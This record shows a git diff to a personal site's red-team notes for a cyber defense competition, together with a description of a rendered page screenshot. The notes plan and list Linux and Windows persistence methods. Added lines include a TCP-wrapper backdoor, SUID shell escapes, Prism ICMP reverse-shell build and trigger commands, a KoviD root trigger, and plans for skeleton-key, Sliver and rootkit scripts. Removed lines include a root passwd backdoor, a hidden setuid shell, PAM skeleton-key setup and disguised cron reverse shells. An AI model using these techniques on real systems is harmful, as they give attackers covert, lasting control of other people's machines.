

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/RedTeamingCCDC.md, in a window 1280 px wide and 1400 px high, scrolled down 1814 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
updated notes

```diff
--- a/markdown/RedTeamingCCDC.md
+++ b/markdown/RedTeamingCCDC.md
@@ -31,6 +31,10 @@
 
 **Windows:**
 - Todo
+  - Write a persistence script that does the following
+    - (maybe) Creates an exclusion for ProgramData
+    - Downloads and executes Mimikatz's skeleton key module
+    - Downloads sliver shell and creates a sliver service hidden with ACLs
   - Investigate hiding services with ACLs: https://www.sans.org/blog/red-team-tactics-hiding-windows-services
     - This seems extremely good
   - Pivoting with netsh port proxy
@@ -73,38 +77,31 @@
 
 **Linux:**
 - Todo:
+  - Write a persistence script that does the following
+    - Backdoors PAM and adds the master password
+    - Adds a sliver script somewhere in the system
+    - Runs prism
+    - Hides all of the above with a rootkit
   - Investigate these methods:
     - TCP Wrapped Services: `echo 'ALL: ALL: spawn ({backdoor}) & :allow' >> /etc/hosts.allow)` (or `hosts.deny`)
     - [Prism](https://github.com/andreafabrizi/prism) ICMP backdoor (connects out to host machine)
     - https://github.com/milabs/awesome-linux-rootkits - list of rootkits
-    - https://github.com/jarun/spy - grabs keyboard input and puts it in /sys/kernel/debug/kisni/keys
+      - https://github.com/carloslack/KoviD seems like a really solid candidate for hiding files, connections, and keylogging
+      - https://github.com/h3xduck/TripleCross this seems like a contender, except does support nearly as many linux kernels
     - https://github.com/ait-aecid/caraxes/ - hides files, could we use this to hide an ssh key?
-    - https://github.com/Aegrah/PANIX - Linux persistence framework (this seems REALLY REALLY good)
     - https://github.com/draios/sysdig - `-c spy_users` can read every user command ran?
-- PANIX
+- [PANIX](https://github.com/Aegrah/PANIX)
   - One-stop shop for a persistence script, this thing is NICE
     - `./panix.sh --suid --default` gives SUID to dash, python, and find
       - `dash -p`, `find . -exec /bin/sh -p \; -quit`, or `python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
-    -
-- Run [linux_persistence.sh {ip}:{port} {sliver_payload_file} {pam_so_file}](https://khaelkugler.com/scripts/linux_persistence.sh.txt) while hosting the payload
-  - Make sure to point the script to the correct location to pull both files from
-    - Make sure to generate sliver payloads beforehand
-    - [PAM backdoor binary](https://khaelkugler.com/scripts/pam_login.so) can be downloaded from `https://khaelkugler.com/scripts/pam_login.so`
-- Add SSH keys
-  - `mkdir /root/.ssh` and add key to `/root/.ssh/authorized_keys`
-- Modify `/etc/passwd` and `/etc/ssh/sshd_config`
-  - `echo 'wwwdata:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash' >> /etc/passwd && chattr +i /etc/passwd && echo 'PermitRootLogin yes' >> /etc/ssh/sshd_config && chattr +i /etc/ssh/sshd_config`
-- Use setuid binaries in weird locations (like a fake .kernel file):
-  - `cp /bin/zsh /.kernel && chmod +sss /.kernel && touch -d "4 May 2024" /.kernel && chattr +i /.kernel`
-  - `chattr` makes the file immutable (and gives ROOT a generic access denied error???)
-- Skeleton key
-  - Copy [pam_login.so](https://khaelkugler.com/scripts/pam_login.so) into `/etc/pam.d/pam_login.so`
-  - Add `auth sufficient /etc/pam.d/pam_login.so` to the top of `/etc/pam.d/common-auth`
-    - To make it so users don't have to authenticate twice with their normal password, add `try_first_pass` to the end of `auth pam_unix.so`
-- Cron jobs:
-  - Make innocuous cron jobs that are just shells sending out continuous connections
-  - Upload shell to `/etc/cron.hourly/locate`, `touch -d "12 Jul 2024" /etc/cron.hourly/locate` to make it non-sus, and `chattr +i /etc/cron.hourly/locate`
-    - Has to start with a `#!/bin/bash`
+- [Prism](https://github.com/andreafabrizi/prism)
+  - Sends out a reverse shell after sending a ping with a certain payload
+    - After specifying variables in C code itself, build with `gcc -DDETACH -DNORENAME -Wall -s -static -o {outfile} prism.c`
+    - Run as root on victim, then to trigger do `sudo python2 sendPacket.py {target} {password_set} {attacker_IP} {attacker_port}`
+  - This seems kinda cool, but wouldn't be anything special unless we could somehow hide the connection with a rootkit
+- [Kovid](https://github.com/carloslack/KoviD)
+  - By god what a beautiful piece of code
+  - Can get root as any process by running `kill -SIGCONT 666`
 
 
 ## Domain Persistence
```
Also changed, not shown: markdown/WindowsPrivilegeEscalation.md (+2 -0 lines).
